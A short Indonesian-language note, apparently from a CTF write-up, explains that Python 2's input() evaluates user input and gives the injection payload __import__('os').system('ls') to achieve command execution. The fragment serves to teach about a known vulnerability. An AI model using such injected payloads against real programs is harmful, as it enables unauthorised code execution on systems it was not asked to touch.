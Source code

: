 ## Python2 Input vulnerabilty

```python
data = input() # line 32
```
    Pada input python2 terdapat bug yang membuat input tidak difilter pada tipe datanya.

    Dengan begitu kita dapat memasukkan input yang dapat memanggil os untuk mendapatkan RCE

```python
__import__('os').system('ls')
```
